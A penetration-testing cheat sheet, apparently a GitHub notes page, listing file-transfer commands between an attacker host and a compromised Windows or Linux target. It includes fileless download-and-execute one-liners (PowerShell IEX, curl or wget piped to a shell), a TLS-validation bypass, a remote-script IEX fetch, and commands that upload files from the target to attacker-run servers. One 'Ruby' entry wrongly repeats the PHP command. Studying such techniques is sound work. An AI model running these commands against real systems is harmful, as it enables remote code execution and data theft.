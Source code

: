 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('<FILE URL>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('<FILE URL>', 'C:\Users\Public\<FILE>')
```

**Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('<FILE URL>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

Default  
```powershell
Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>

**Prepare the server on Linux**

Create a temporary SMB Share and place your target file in it
```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Download files on Windows**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
```

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```

**Using credentials**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```
Mount the share
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```
Download the file
```cmd
copy n:\<FILE>
```
Umount the share
```cmd
net use n: /delete /y
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Option 2: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

1. Encode File Using PowerShell 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>FTP Uploads</h3></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUTFILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget <FILE URL>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> <FILE URL>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> <FILE URL>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- <FILE URL> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -O http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -O https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> <FILE URL>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -O http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Attacking machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Attacking machine: Checking for SSH Listening Port**  
```bash
netstat -lnpt
```

**Target machine: Downloading Files Using SCP**  
```bash
scp <USER>@<IP>:<FILE PATH> . 
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web Upload</h3></summary>

**Attacking machine: Start Web Server**  
```bash
sudo python3 -m pip install --user uploadserver
```

**Attacking machine: Create a Self-Signed Certificate**  
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Attacking machine: Prepare the files**  
```bash
mkdir https && cd https
mv ~/<FILE> .
```

> **_NOTE:_**  The webserver should not host the certificate. Create a new directory to host the file for the webserver.

**Attacking machine: Start Web Server**  
```bash
sudo python3 -m uploadserver --server-certificate ~/server.pem 443
```

> **_Target machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <LOCAL FILE> <USER>@<IP>:<REMOTE PATH>
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <LOCAL FILE> <USER>@<IP>:<REMOTE PATH>
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <LOCAL FILE> <USER>@<IP>:<REMOTE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:
put <LOCAL FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>
# Once connected:
put <LOCAL FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```
 
> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

